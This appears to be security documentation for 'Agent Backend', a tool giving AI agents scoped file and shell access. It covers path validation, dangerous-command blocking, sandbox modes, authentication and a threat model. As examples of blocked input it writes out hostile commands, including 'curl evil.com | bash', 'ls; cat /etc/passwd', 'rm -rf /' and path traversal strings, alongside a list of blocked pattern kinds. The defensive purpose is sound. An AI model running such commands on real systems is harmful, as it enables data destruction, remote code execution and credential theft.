


# Security

Agent Backend provides multiple layers of security to protect against malicious operations and unauthorized access.

---

## Path Validation



### Protections

**Path Traversal Prevention:**
- `..` segments blocked if they would escape the scope
- Absolute paths treated as relative to `rootDir`
- Symlink following can be disabled

**Example:**
```text
backend = LocalFilesystemBackend(rootDir: "/tmp/agentbe-workspace/users/alice")

// Allowed
backend.write("data.txt", "content")            // /tmp/agentbe-workspace/users/alice/data.txt
backend.write("project/config.json", "{}")      // /tmp/agentbe-workspace/users/alice/project/config.json
backend.write("/etc/config", "data")            // Treated as relative: .../users/alice/etc/config

// Blocked - PathEscapeError
backend.write("../bob/secrets.txt", "data")     // Escapes to /tmp/agentbe-workspace/users/bob
backend.write("../../root/.ssh/keys", "data")   // Escapes to /tmp/agentbe-workspace
```

### Scoped Backends

When using `.scope()`, path validation is applied at each scope level:

```text
baseBackend    = LocalFilesystemBackend(rootDir: "/tmp/agentbe-workspace")
aliceBackend   = baseBackend.scope("users/alice")
projectBackend = aliceBackend.scope("project-a")

// projectBackend can only access /tmp/agentbe-workspace/users/alice/project-a
projectBackend.write("config.json", "{}")         // OK: .../users/alice/project-a/config.json
projectBackend.write("../../../etc", "data")      // ERROR: PathEscapeError - escapes project-a scope
```

---

## Command Safety



### Dangerous Patterns Blocked

When `preventDangerous: true` (default), commands are checked against known dangerous patterns before execution.

The complete list of blocked regex patterns (including destructive operations, privilege escalation, network tools, command substitution, workspace escape, and more) is defined in [opensdd/safety.md](../opensdd/safety.md), which is the source of truth for command safety rules.

Common examples of blocked commands:

- `rm -rf /` - Recursive force delete from root
- `sudo`, `su` - Privilege escalation
- `curl ... | sh` - Download and execute
- `eval` - Dynamic code execution
- `iptables` - Firewall modification
- `cd`, `pushd` - Directory change (workspace escape)

### Isolation Modes

**`auto` (default):**
- Uses `bwrap` if available (Linux)
- Falls back to `software` validation

**`bwrap` (Linux only):**
- Uses bubblewrap for Linux namespace isolation
- Sandboxes process with limited filesystem access
- Most secure option

**`software`:**
- Heuristic-based command validation
- Blocks known dangerous patterns
- Works on all platforms

**`none`:**
- No safety checks or isolation
- Trust mode for controlled environments
- Use with caution

**Example:**
```text
backend = LocalFilesystemBackend(
  rootDir:          "/tmp/agentbe-workspace",
  isolation:        "auto",
  preventDangerous: true
)

// Allowed
backend.exec("npm install")
backend.exec("node build.js")
backend.exec("git status")

// Blocked - DangerousOperationError
backend.exec("rm -rf /")
backend.exec("sudo apt-get install malware")
backend.exec("curl evil.com | bash")
backend.exec("ls; cat /etc/passwd")
```

---

## Authentication

### Local Development

**Stdio Mode (`--local-only`):**
- No authentication needed
- Process-to-process communication via stdin/stdout
- Only accessible by processes on same machine

**HTTP Mode (without `--local-only`):**
- Optional: Bearer token authentication via `--auth-token`
- Recommended: No auth for localhost-only development
- Should bind to `localhost` only (not `0.0.0.0`)

**Example:**
```bash
# No auth needed for stdio
agent-backend daemon --rootDir /tmp/agentbe-workspace --local-only

# Optional auth for HTTP
agent-backend daemon --rootDir /var/workspace --auth-token dev-secret-123
```

### Production (Remote)

**SSH Authentication (Required):**
- Password authentication (basic)
- Public key authentication (recommended)
- Certificate-based authentication (advanced)

**MCP Authentication (Required):**
- Bearer token via `--auth-token`
- Sent as `Authorization: Bearer <token>` header
- Tokens should be cryptographically random (32+ bytes)

**Example:**
```bash
# Full daemon with authentication
agent-backend daemon \
  --rootDir /var/workspace \
  --ssh-users "agent:$(openssl rand -base64 32)" \
  --auth-token "$(openssl rand -base64 32)"
```

**Client configuration (pseudocode):**
```text
backend = RemoteFilesystemBackend(
  host:         "build-server.com",
  sshPort:      22,
  port:         3001,
  sshAuth:      {type: "key", credentials: {username: "agent", privateKey: readFile("/path/to/key")}},
  authToken:    env("AUTH_TOKEN")    // Bearer token
)
```

### Network Security

**Firewall Rules:**
- Restrict SSH (port 22) to known IP ranges
- Restrict MCP (port 3001) to trusted networks
- Use VPN for additional protection

**TLS/SSL:**
- SSH provides encryption by default
- MCP over HTTP should use reverse proxy with HTTPS in production

**Example nginx reverse proxy:**
```nginx
server {
  listen 443 ssl;
  server_name build-server.com;

  ssl_certificate /path/to/cert.pem;
  ssl_certificate_key /path/to/key.pem;

  location /mcp {
    proxy_pass http://localhost:3001/mcp;
    proxy_set_header Authorization $http_authorization;
  }
}
```

---

## Security Best Practices

### 1. Principle of Least Privilege

**Use scoping:**
```text
// Don't give full access
backend = LocalFilesystemBackend(rootDir: "/")

// Limit to workspace
backend = LocalFilesystemBackend(rootDir: "/tmp/agentbe-workspace")

// Further scope per user
userBackend = backend.scope("users/<userId>")
```

### 2. Enable All Safety Features

**Default configuration (recommended):**
```text
backend = LocalFilesystemBackend(
  rootDir:          "/tmp/agentbe-workspace",
  isolation:        "auto",          // Use best available isolation
  preventDangerous: true             // Block dangerous commands
)
```

### 3. Rotate Authentication Credentials

**SSH keys:**
- Use unique keys per environment
- Rotate regularly (every 90 days)
- Use key passphrases

**MCP tokens:**
- Generate cryptographically random tokens
- Store in environment variables, not code
- Rotate on suspected compromise

### 4. Monitor and Log

**Enable operation logging:**
```text
backend = LocalFilesystemBackend(
  rootDir:          "/tmp/agentbe-workspace",
  operationsLogger: ConsoleOperationsLogger()
)

// Logs all operations:
// [2024-01-15T10:30:00.000Z] READ /tmp/agentbe-workspace/config.json
// [2024-01-15T10:30:01.000Z] EXEC npm install
```

**Monitor for suspicious activity:**
- Excessive failed authentication attempts
- Path escape attempts
- Dangerous command attempts
- Unusual access patterns

### 5. Validate User Input

**Sanitize paths:**
```text
// Don't trust user input directly
path = request.body.filename
backend.write(path, data)                // Vulnerable to path traversal

// Validate and sanitize
filename = basename(request.body.filename)    // Remove directory components
if filename does not match [a-zA-Z0-9._-]+:
    raise "Invalid filename"
backend.write(filename, data)
```

**Sanitize commands:**
```text
// Don't interpolate user input into commands
script = request.body.script
backend.exec("node " + script)           // Shell injection risk

// Use parameterized execution
allowedScripts = ["build.js", "test.js"]
if script not in allowedScripts:
    raise "Script not allowed"
backend.exec("node " + script)
```

### 6. Defense in Depth

Layer multiple security controls:

1. **Network:** Firewall, VPN, IP allowlisting
2. **Authentication:** SSH keys + MCP tokens
3. **Authorization:** Scoping, path validation
4. **Execution:** Command safety, isolation modes
5. **Monitoring:** Logging, alerting, auditing

No single layer should be relied upon exclusively.

---

## Threat Model

### Threats Mitigated

✅ **Path traversal attacks** - Path validation layer
✅ **Command injection** - Command safety layer
✅ **Unauthorized access** - Authentication layer
✅ **Privilege escalation** - Isolation modes
✅ **Resource exhaustion** - Configurable limits (future)

### Known Limitations

⚠️ **Symbolic links** - Can bypass path restrictions if not disabled
⚠️ **Time-of-check/time-of-use** - Race conditions possible with file operations
⚠️ **Memory limits** - No built-in memory limits for spawned processes
⚠️ **CPU limits** - No built-in CPU time limits
⚠️ **Disk space** - No built-in disk quota enforcement

### Out of Scope

❌ **DDoS protection** - Should be handled at infrastructure layer
❌ **Malware scanning** - Should be handled by separate tools
❌ **Data encryption at rest** - Should be handled by filesystem/OS
❌ **Audit compliance** - Should be implemented in application layer

---

## Reporting Security Issues

If you discover a security vulnerability, please report it responsibly:

1. **Do not** open a public GitHub issue
2. Contact the maintainers privately
3. Provide detailed reproduction steps
4. Allow time for a fix before public disclosure

See [SECURITY.md](../SECURITY.md) for more information.
